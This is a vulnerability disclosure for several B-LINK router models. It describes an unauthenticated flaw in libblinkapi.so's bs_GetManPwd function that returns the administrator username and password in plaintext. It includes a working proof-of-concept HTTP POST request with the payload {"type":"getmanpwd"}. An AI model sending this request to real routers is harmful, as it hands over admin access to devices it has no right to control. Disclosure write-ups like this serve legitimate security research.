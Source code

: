 # Web interface login credential disclosure risk in various Blink router models

BUG_Author: waiwai

Vendor：[Blink](https://www.b-link.net.cn/)

Product: Multiple routers using libblinkapi.so component, including BL-AX5400P V1.0.19, BL-AX1800 V1.0.19, BL-AC3600 V1.0.22, BL-WR9000 V2.4.9, BL-AC1900 V1.0.2, BL-AC2100_AZ3 V1.0.4.

Vulnerability Files: libblinkapi.so

## Description

Multiple B-LINK routers contain a severe information disclosure vulnerability in the bs_GetManPwd function within the libblinkapi.so shared library. When processing getmanpwd requests, this function directly returns the administrator's username and password in plaintext to the client without requiring authentication.

## POC

```
POST /cgi-bin/lighttpd.cgi HTTP/1.1
Host: 192.168.2.2
Accept-Language: zh-CN,zh;q=0.9
Referer: http://192.168.2.2/html/index.html
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Authorization: 1
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.2.2
Content-Length: 21

{"type":"getmanpwd"}
```



## Example

![image-20250702115811379](./assets/Web_Interface_Login_Credential_Disclosure_Risk_in_Various_Blink_Router_Models/image-20250702115811379.png)

